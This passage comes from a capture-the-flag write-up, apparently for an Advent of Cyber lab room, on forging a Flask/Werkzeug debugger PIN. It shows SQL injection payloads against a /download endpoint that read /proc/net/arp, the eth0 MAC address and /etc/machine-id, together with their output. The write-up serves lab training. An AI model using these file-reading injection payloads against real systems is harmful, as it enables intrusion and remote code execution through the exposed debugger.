 - Username
- Application Path
- MAC
- Server ID

>Read more: [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug)
{: .prompt-tip }

After a quick look at the `/download` path, we can see that the Flask app is using SQL. "Luckily", the app is vulnerable to SQLi.

![SQLi](blog/thm/aoc_23_room4/sqli.png)

Armed with that, we can now enumerate the needed information in order to calculate the PIN.

Starting with the username and the aplication path, we can see that in the traceback console. The username can also be verified via a DB scan with SQLmap.

![Traceback](blog/thm/aoc_23_room4/traceback.png)

Moving on to the MAC address, we first need to identify the network adapter. To do so, we can use the following SQLi payload.

```
/download?id=0' UNION SELECT 'file://////proc/net/arp'; --
```

```
IP address       HW type     Flags       HW address            Mask     Device
10.10.0.1        0x1         0x2         02:c8:85:b5:5a:aa     *        eth0
```

Then we can run the following payload with the given device name:

```
/download?id=0' UNION SELECT 'file://////sys/class/net/eth0/address'; --
```

```
02:3d:12:ea:d8:a1
```

And finally, we need to conver the HEX to Decimal:

```
2461333641377
```

The final part is to obtain the machine ID, which can be done with the following payload.

```
/download?id= ' UNION SELECT 'file://////etc/machine-id'; --
```

```
aee6189caee449718070b58132f2e4ba
```

Now, we can specify all options and run the PIN generator.
